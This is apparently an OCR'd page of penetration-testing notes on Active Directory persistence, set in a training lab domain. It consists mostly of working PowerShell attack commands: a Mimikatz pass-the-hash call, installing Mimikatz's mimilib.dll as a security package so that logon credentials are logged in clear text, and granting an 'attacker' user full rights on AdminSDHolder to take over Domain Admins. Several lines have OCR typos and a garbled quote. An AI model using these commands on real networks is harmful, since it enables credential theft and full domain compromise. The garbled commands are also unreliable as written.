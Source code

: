 ```powershell
Invoke-Mimikatz -Command '"privilege::debug" “sekurlsa::pth" /domain:dcorp-dc /user:Administrator /ntlm:XXXX /run:powershell.exe"'
```

### Custom-SSP
```powershell
# SSP is a DLL that provides an application ways to authenticated. Some MIcrosoft packages:
# - NTLM
# - Kerberos
# - Wdigest
# - CredSSP
# Mimikatz provides a custom SSP in mimilib.dll
# This lib logs all logons (local, service account, machine account) into a clear text on the computer (c:\windows\ystem32\mimilsa.log)

# It can be done with mimikatz (not very stable in recent windows Server versions)
Invoke-Mimikatz -Command '"misc::memssp"'

# Another way is to manually add mimilib.dll as Security package:
# First drop the mimilib.dll in c:\windows\system32
# Then modify a registry key to add mimilib.dll as Security Package:
# HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages
$packages = Get-ItemProperty HKLM:SYSTEM\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' | Select -ExpandProperty ìSecurity Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:SYSTEM\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' -value $packages
Set-ItemProperty HKLM:SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -value $packages
```

### AdminSDHolder
```powershell
# There is a OU who is used as a reference for ACL on Protected groups
# every 60 minutes there's a scheduled task that replace ACL on "Domain ADmins" "Server admins" "Backup operator" (etc..) groups
# This to revert dangerous changes to ACL on this protected group
# Persistence can be obatined by changing te ACL to this OU named AdminSDHolder

# This command gives full access on AdminSDHolder to user "attacker" with Powerview
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=loc' -PrincipalIdentity attacker -Verbose -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local

# Other rights can be interesting like "ResetPassword" or "WriteMembers"

# In about 60 minutes  this ACL is propageted to domain admin groups and other privileged groups

# It also can be forced in a few ways

# 1. modifying the registry 
REG ADD HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /V AdminSDProtectFrequency /T REG_DWORD /F /D 300 

# 2. using a script InvokeSDPropagator
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose

$sess = New-PSSession -computername dcorp-dc
Invoke-Command -Session $sess -FilePath c:\tools\Invoke-SDPropagator.ps1
Invoke-SDPropagator

# After that, the user attacker can add new_da user to "domain admins" group  
Add-DomainGroupMemeber -Identity 'Domain admins' -Members new_da -Vrebose
```